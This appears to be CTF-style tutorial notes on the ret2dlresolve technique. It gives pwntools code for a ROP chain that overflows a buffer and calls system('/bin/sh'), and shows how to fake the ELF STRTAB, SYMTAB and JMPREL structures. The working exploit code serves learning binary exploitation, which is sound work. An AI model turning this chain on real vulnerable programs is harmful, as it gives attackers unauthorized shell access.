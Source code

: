```python
rop = ROP(context.binary)
dlresolve = Ret2dlresolvePayload(context.binary, symbol="system", args=["/bin/sh"])
rop.read(0, dlresolve.data_addr) # don't forget this step, but use any function you like
rop.ret2dlresolve(dlresolve)
raw_rop = rop.chain()

offset = 64
p.sendline(fit({offset+context.bytes*3: raw_rop, 200: dlresolve.payload}))
```

`readelf -d vuln` to get address of SYMTAB, STRTAB and JMPREL.

3 structures need to be faked: the STRTAB entry, SYMTAB entry and JMPREL struct.

## STRTAB

STRTAB just contains the name of the symbol. After writing the string, we need to calculate offset via fake_loc -
STRTAB.

## SYMTAB

SYMTAB (64-bit) is built as such:

```python
Elf64_Sym_addr = writable_region
sym_idx = int((Elf64_Sym_addr - symtab) / 24)

st_name = p32(str_idx)
st_info = p8(0x12)
st_other = p8(0)
st_shndx = p16(0)
st_value = p64(0)
st_size = p64(0)
Elf64_Sym_struct = st_name \
        + st_info \
        + st_other \
        + st_shndx \
        + st_value \
        + st_size
```

## JMPREL

JMPREL (64-bit) is built as such:

```python
Elf64_Rel_addr = writable_region
reloc_arg = int((Elf64_Rel_addr - jmprel) / 24)

r_offset = p64(0x404020) # offset to GOT entry to be written, doesn't matter much except must be writable
r_info = p64((sym_idx << 32) | 0x7)
Elf64_Rel_struct = r_offset + r_info
```
